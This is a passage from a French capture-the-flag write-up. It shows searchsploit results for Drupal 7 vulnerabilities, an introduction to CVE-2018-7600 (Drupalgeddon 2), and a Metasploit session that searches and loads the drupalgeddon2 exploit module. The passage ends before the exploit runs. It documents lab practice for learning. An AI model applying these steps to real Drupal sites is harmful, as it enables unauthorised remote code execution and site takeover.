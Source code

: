 ```console
root@blinils:~# searchsploit drupal 7.
 ----------------------------------------------------------------------------------------------- 
| Exploit Title                                                                                 |
 ----------------------------------------------------------------------------------------------- 
| Drupal  < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution          |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                             |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                              |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)                   |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)                   |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)                      |
| Drupal 7.12 - Multiple Vulnerabilities                                                        |
| Drupal 7.x Module Services - Remote Code Execution                                            |
| Drupal < 4.7.6 - Post Comments Remote Command Execution                                       |
| Drupal < 7.34 - Denial of Service                                                             |
| Drupal < 7.58 - 'Drupalgeddon3' Authenticated Remote Code (Metasploit)                        |
| Drupal < 7.58 - 'drupalgeddon3' Authenticated Remote Code Execution (PoC)                     |
| Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting        |
| Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                 |
| Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                       |
| Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                             |
| Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                             |
 ----------------------------------------------------------------------------------------------- 
```

## Exploitation de la CVE-2018-7600 (Drupalgeddon 2)

L'une d'entre elles semble particulièrement alléchante : [Drupalgeddon 2](https://www.cert.ssi.gouv.fr/alerte/CERTFR-2018-ALE-005/), référencée par l'identifiant [CVE-2018-7600](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600). L'annonce faite [par l'éditeur](https://groups.drupal.org/security/faq-2018-002) en mars 2018 faisait froid dans le dos ; une vulnérabilité critique a été découverte par un chercheur en sécurité, permettant à un attaquant de réaliser des attaques afin de prendre illégalement le contrôle d'un site web Drupal vulnérable. Des correctifs ont depuis été communiqués par l'éditeur, mais surtout, des codes d'exploitation ont également été publiés sur Internet. Ce CTF est une bonne occasion de les tester...

```console
root@blinils:~# service postgresql start
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...

msf > search drupal

Matching Modules
================

Name                                           Disclosure Date  Rank       Description
----                                           ---------------  ----       -----------
auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Drupal OpenID External Entity Injection
auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Drupal Views Module Users Enumeration
exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  Drupal HTTP Parameter Key/Value SQL Injection
exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Drupal CODER Module Remote Command Execution
exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Drupal Drupalgeddon 2 Forms API Property Injection
exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Drupal RESTWS Module Remote PHP Code Execution
exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  PHP XML-RPC Arbitrary Code Execution

msf > use exploit/unix/webapp/drupal_drupalgeddon2
```